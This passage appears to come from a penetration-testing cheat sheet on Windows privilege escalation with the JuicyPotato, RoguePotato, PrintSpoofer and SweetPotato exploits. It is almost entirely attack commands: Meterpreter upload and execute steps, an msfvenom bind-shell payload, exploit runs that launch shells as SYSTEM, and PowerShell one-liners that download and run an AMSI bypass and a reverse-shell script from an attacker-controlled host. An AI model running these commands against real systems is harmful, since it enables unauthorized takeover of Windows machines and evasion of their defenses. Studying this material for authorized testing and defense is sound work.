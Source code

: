 ```
#MSFCONSOLE
mkdir /temp
cd /temp
upload JuicyPotato.exe 
execute -f JuicyPotato.exe -a '-t u -p "C:\Windows\System32\cmd.exe" -l 4444' -i

msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=10.10.1.2 LPORT=6666 -f exe -o bind_tcp.exe
upload bind_tcp.exe C:\\users\\public\\
execute -f JuicyPotato.exe -a '-t u -p "C:\users\public\bind_tcp.exe" -l 4444' -i
use multi/handler
set payload windows/x64/meterpreter/bind_tcp
set LPORT 6666
set RHOST <IP>
 
.\JuicyPotato.exe -l 1337 -p "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "iex (New-Object Net.WebClient).DownloadString('http://x.x.x.x:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://x.x.x.x:8090/Invoke-PowerShellTcp2.ps1')" -t *
```

### Rogue potato
- https://github.com/antonioCoco/RoguePotato
- https://github.com/antonioCoco/RoguePotato/releases

#### use PSExec64.exe to trigger a reverse shell running as the Local Service service account:
```
C:\temp\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\temp\reverse.exe
```

#### Now run the RoguePotato exploit to trigger a reverse shell running with SYSTEM privileges 
```
C:\PrivEsc\RoguePotato.exe -r <IP> –l <PORT> -e "C:\temp\reverse.exe"
```

### Printspoofer
PrintSpoofer is an exploit that targets the Print Spooler service.
- https://github.com/itm4n/PrintSpoofer

#### Run printspoofer exploit
```
C:\PrivEsc\PrintSpoofer.exe -i -c "C:\temp\reverse.exe"
C:\PrintSpoofer.exe -i -c cmd.exe
```
 
### Sweet potato
- https://github.com/CCob/SweetPotato
- Also copy over the PowerShx.exe
 
#### Example execution to get revshell
```
./SweetPotato.exe -a "/c powershell.exe iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>:8090/Invoke-PowerShellTcp2.ps1')"
```
 